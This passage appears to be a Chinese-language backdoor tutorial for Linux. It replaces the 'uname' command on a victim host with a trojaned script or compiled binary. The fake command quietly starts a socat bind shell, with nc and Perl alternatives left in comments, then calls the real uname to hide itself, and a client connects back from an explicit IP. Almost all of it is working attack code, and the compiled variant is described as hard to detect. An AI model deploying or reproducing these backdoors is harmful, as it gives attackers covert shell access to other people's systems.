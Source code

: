 > 注：此项需要受害者主机安装 socat  ```yum install socat```
>
> 如下为篡改命令后的后门

方案一：在受害者主机执行分别执行以下命令：

```bash
touch /usr/local/bin/uname
#写入以下文件
#!/bin/bash
socat TCP4-Listen:1377,fork EXEC:/bin/bash 2>/dev/null &

# 然后执行uname 
sudo /usr/local/bin/uname
##然后客户端主机执行：
socat STDIO TCP4:49.232.30.21:1377
```

方案二：或者执行以下bd_uname.sh脚本, **生成文本格式的后门命令**

```sh
#uname
#-------------------------
touch /usr/local/bin/uname

cat <<EOF >> /usr/local/bin/uname
#!/bin/bash
#nc.traditional -l -v -p 4444 -e /bin/bash 2>/dev/null &
#socat TCP4-Listen:3177,fork EXEC:/bin/bash 2>/dev/null &
socat SCTP-Listen:1177,fork EXEC:/bin/bash 2>/dev/null &
#perl -MIO -e'$s=new IO::Socket::INET(LocalPort=>1337,Listen=>1);while($c=$s->accept()){$_=<$c>;print $c `$_`;}' 2>/dev/null &
/bin/uname \$@
EOF

chmod +x /usr/local/bin/uname
```

方案三：或者执行以下bd_uname_c.sh , **生成二进制格式的后门命令**(格式与正常命令相似，不易发现)

```shell
#!/bin/bash

#uname
#------------------------
touch /tmp/.uname.c

cat <<EOF >> /tmp/.uname.c

#include <sys/types.h>

int main(int a,char**b){
  pid_t child_pid = fork();
  if(child_pid == 0) {
    /* char*d[999999]={"sh","-c","nc.traditional -l -v -p 4444 -e /bin/bash 2>/dev/null &"}; */
    /* char*d[999999]={"sh","-c","socat TCP4-Listen:3177,fork EXEC:/bin/bash 2>/dev/null &"}; */
    char*d[999999]={"sh","-c","socat SCTP-Listen:1177,fork EXEC:/bin/bash 2>/dev/null &"};
    /* char*d[999999]={"sh","-c","perl -MIO -e'$s=new IO::Socket::INET(LocalPort=>1337,Listen=>1);while($c=$s->accept()){$_=<$c>;print $c `$_`;}' 2>/dev/null &"}; */
    execv("/bin/sh",d);
    exit(0);
  }
  else {
    char*c[999999]={"sh","-c","/bin/uname \$*"};
    memcpy(c+3,b,8*a);
    execv("/bin/sh",c);
  }
```